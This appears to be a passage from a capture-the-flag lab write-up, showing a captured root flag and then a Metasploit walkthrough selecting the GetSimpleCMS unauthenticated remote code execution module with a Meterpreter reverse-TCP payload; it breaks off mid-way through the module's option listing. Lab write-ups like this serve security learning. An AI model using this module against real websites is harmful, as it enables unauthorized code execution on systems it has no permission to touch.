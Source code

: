 ```
$ cat ~/root.txt

f1fba6e9f71efb2630e6e34da6387842
```

---

another approach is using metasploit

```
$ msfconsole

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE
```

we use #1:

```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > use 1

[*] Using configured payload php/meterpreter/reverse_tcp
```

`show info` gives us more details about the exploit.

```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show info

       Name: GetSimpleCMS Unauthenticated RCE
     Module: exploit/multi/http/getsimplecms_unauth_code_exec
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-28

Provided by:
  truerand0m

Available targets:
      Id  Name
      --  ----
  =>  0   GetSimpleCMS 3.3.15 and before

Check supported:
  Yes

Basic options:
  Name       Current Setting        Required  Description
  ----       ---------------        --------  -----------
  Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     http://10.129.207.104  yes       The target host(s), see https://docs.metasploit.com/docs/using-metas
```